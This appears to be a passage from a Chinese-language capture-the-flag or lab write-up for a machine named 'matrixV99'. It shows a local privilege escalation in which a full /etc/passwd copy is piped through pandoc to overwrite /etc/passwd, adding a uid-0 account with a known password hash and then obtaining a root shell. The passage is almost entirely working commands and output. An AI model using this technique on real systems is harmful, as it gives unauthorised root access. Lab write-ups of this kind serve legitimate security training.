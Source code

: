 可以利用这个漏洞实现对文件的覆写, 在这里我选择添加一个用户

```bash
architect@matrixV99:~$ echo -e 'FUCK:\$1\$admin\$eiO19kFjs48pgX5PoJpXm1:0:0::/root:/bin/bash\nroot:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin\nsyslog:x:102:106::/home/syslog:/usr/sbin/nologin\nmessagebus:x:103:107::/nonexistent:/usr/sbin/nologin\n_apt:x:104:65534::/nonexistent:/usr/sbin/nologin\nlxd:x:105:65534::/var/lib/lxd/:/bin/false\nuuidd:x:106:110::/run/uuidd:/usr/sbin/nologin\ndnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin\nlandscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin\npollinate:x:109:1::/var/cache/pollinate:/bin/false\nsshd:x:110:65534::/run/sshd:/usr/sbin/nologin\narchitect:x:1000:1000:architect:/home/architect:/bin/bash\nmysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false\nntp:x:112:115::/nonexistent:/usr/sbin/nologin' | /usr/bin/pandoc -t plain -o  /etc/passwd
architect@matrixV99:~$ cat /etc/passwd
FUCK:$1$admin$eiO19kFjs48pgX5PoJpXm1:0:0::/root:/bin/bash
root:x:0:0:root:/root:/bin/bash
......
architect@matrixV99:~$ su FUCK
Password: 
FUCK@matrixV99:/home/architect# id
uid=0(FUCK) gid=0(root) groups=0(root)
```